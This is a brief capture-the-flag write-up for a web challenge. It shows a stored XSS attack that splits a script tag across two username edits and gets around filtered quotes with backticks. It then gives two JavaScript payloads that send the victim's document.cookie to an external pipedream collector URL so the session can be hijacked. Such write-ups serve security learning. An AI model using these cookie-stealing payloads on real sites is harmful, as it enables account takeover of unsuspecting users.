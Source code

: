 # x1337 Sk1d R3p0rt3r

First, Register and login

Edit username: **\*/\</script** and send cc notepad

Edit username: **\<script>/\***&#x20;

Host a sever pipedream and send request

Note: **' , "** filted so we use \`

```javascript
payload = */fetch(`https://enz92o3d70fhjpm.m.pipedream.net?c=`+document.cookie)/*
```

```javascript
payload = */ new Image().src=`https://enz92o3d70fhjpm.m.pipedream.net?c=`+document.cookie /*
```

![](<../.gitbook/assets/image (53).png>)

## Set cookie

![](<../.gitbook/assets/image (52).png>)

![](<../.gitbook/assets/image (51).png>)
